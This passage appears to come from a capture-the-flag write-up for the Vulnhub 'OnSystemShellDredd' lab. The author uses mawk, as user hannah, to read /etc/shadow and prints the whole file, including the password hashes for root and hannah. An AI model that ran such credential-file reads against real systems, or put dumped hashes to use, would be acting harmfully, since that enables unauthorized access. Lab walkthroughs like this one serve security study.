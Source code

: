 ![Untitled](/Vulnhub-Files/img/OnSystemShellDredd/Untitled%201.png)

Since I can read and write the files so lets see the /etc/shadow file for this system →

```bash
hannah@ShellDredd:/$ mawk '//' /etc/shadow
root:$6$pUGgTFAG7pM5Sy5M$SXmRNf2GSZhId7mGCsFwJ4UCweCXGKSMIO8/qDM6NsiKckV8UZeZefDYw2CL2uAEwawIufKMv/e1Q6YDyTeqp0:18656:0:99999:7:::
daemon:*:18480:0:99999:7:::
bin:*:18480:0:99999:7:::
sys:*:18480:0:99999:7:::
sync:*:18480:0:99999:7:::
games:*:18480:0:99999:7:::
man:*:18480:0:99999:7:::
lp:*:18480:0:99999:7:::
mail:*:18480:0:99999:7:::
news:*:18480:0:99999:7:::
uucp:*:18480:0:99999:7:::
proxy:*:18480:0:99999:7:::
www-data:*:18480:0:99999:7:::
backup:*:18480:0:99999:7:::
list:*:18480:0:99999:7:::
irc:*:18480:0:99999:7:::
gnats:*:18480:0:99999:7:::
nobody:*:18480:0:99999:7:::
_apt:*:18480:0:99999:7:::
systemd-timesync:*:18480:0:99999:7:::
systemd-network:*:18480:0:99999:7:::
systemd-resolve:*:18480:0:99999:7:::
messagebus:*:18480:0:99999:7:::
avahi-autoipd:*:18480:0:99999:7:::
sshd:*:18480:0:99999:7:::
hannah:$6$y8GL381zxgwD7gRr$AhERcqNym1qlATj9Rl6RmYXyLoxl2q1purtp9d.tpWEJTmYOUJORrve1ohmQjJtNRfzfvcZXyzMLk89Ir/g5X.:18656:0:99999:7:::
systemd-coredump:!!:18480::::::
ftp:*:18480:0:99999:7:::
hannah@ShellDredd:/$
```
{: .nolineno}
